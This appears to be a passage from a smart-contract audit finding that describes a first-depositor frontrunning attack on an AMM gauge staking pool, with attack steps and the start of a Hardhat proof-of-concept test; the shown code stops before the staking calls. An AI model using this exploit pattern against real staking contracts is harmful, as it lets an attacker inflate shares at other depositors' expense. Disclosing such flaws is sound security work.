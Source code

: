 Steps:
- Alice is the first staker and deposits 1wei worth of DummyERC20.
- Bob takes one day to find out this new protocol and decides to stake 10 ETH amount of tokens (`10 * 10**decimals()`).
- Alice, who was scanning the mempool, frontruns Bob with the same amount he was willing to stake. Her txn is mined first.
- Then Bobs' transaction is mined for the 10 ETH worth.
- Sometime after this, the pool is checkpointed.
- A few days pass, and Bob wants to stake even more tokens. The same amount as before.
- Alice frontruns him again updating her shares.
- Bobs' transaction is mined and his shares are also updated.
- The pool is checkpointed again. And Alice managed to increase considerably her amount of shares.

Both cases were evaluated (with and without staking 1 wei first). The attack scenario outputs a 100% more shares to Alice than Bob in comparison with the ethical/non-attack situation.

The code used to perform this test is the following:

    it("First Depositer Exploit", async function () {
            let userShares = []
            let userIntegral = []
            let userBalance = []

            let globalIntegral, totalStaked;
            let aliceBob = [alice, bob];

            // Starting Checkpoint
            await this.ammgauge.poolCheckpoint();
            await ethers.provider.send("evm_increaseTime", [1 * 24 * 60 * 60]); // 10 days
            
            const updateStates = async () => { 
                userShares = []
                userIntegral = []
                userBalance = []
                for (const user of aliceBob) {
                    let balances = ethers.utils.formatEther(await this.ammgauge.balances(user.address));
                    let currentShare = ethers.utils.formatEther(await this.ammgauge.perUserShare(user.address));
                    let currentStakedIntegral = ethers.utils.formatEther(await this.ammgauge.perUserStakedIntegral(user.address));
                    userShares.push(currentShare);
                    userIntegral.push(currentStakedIntegral);
                    userBalance.push(balances);
                }
                globalIntegral = await this.ammgauge.ammStakedIntegral()
                totalStaked = await this.ammgauge.totalStaked()
                console.log("  ")
                console.log("         ALICE / BOB");
                console.log(`Shares: ${userShares}`);
                console.log(`Integr: ${userIntegral}`);
                console.log(`Balanc: ${userBalance}`);
                console.log("  ")
                console.log("Global")
                console.log(`Integral: ${ethers.utils.formatEther(globalIntegral)}, TotalStaked: ${ethers.utils.formatEther(totalStaked)}`)
            }

